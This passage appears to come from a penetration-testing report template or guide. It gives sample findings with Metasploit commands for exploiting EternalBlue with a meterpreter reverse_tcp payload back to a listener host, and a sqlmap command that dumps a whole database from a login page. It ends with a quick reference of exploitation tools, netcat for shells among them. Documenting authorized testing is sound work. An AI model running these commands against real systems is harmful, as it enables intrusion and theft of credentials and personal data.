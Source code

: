 ```markdown
- **Target:** 192.168.1.100:445
- **Vulnerability:** EternalBlue (CVE-2017-0143)
- **Exploit Used:** exploit/windows/smb/ms17_010_eternalblue
- **Payload:** windows/x64/meterpreter/reverse_tcp
- **Result:** SYSTEM-level access achieved

**Exploitation Steps:**
```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
set LHOST 192.168.1.50
exploit
```

**Proof of Compromise:**
- Session established: meterpreter session 1
- User context: NT AUTHORITY\SYSTEM
- System information: Windows 7 SP1 x64
- Evidence: Screenshot of successful exploitation

#### SQL Injection Database Access
- **Target:** http://192.168.1.100/login.php
- **Vulnerability:** Union-based SQL injection
- **Tool Used:** SQLMap + manual techniques
- **Result:** Complete database access

**Exploitation Steps:**
```bash
sqlmap -u "http://192.168.1.100/login.php?id=1" --dump-all
```

**Data Accessed:**
- User credentials: 15 user accounts with hashed passwords
- Personal information: Names, emails, phone numbers
- Administrative data: System configuration, audit logs
- Evidence: Database dump files and screenshots

### Impact Assessment
- **Confidentiality:** High - Sensitive data accessed
- **Integrity:** Medium - Ability to modify system data
- **Availability:** Low - No denial of service achieved
- **Business Impact:** Critical - Customer data compromised
```

## 📚 Exploitation Quick Reference

### Common Exploitation Frameworks:
```bash
# Metasploit Framework
msfconsole                          # Interactive console
msfvenom                            # Payload generator
searchsploit                        # Exploit database

# Manual exploitation tools
nc                                  # Netcat for shells
socat                              # Advanced networking tool
python/perl/bash                   # Scripting languages
```

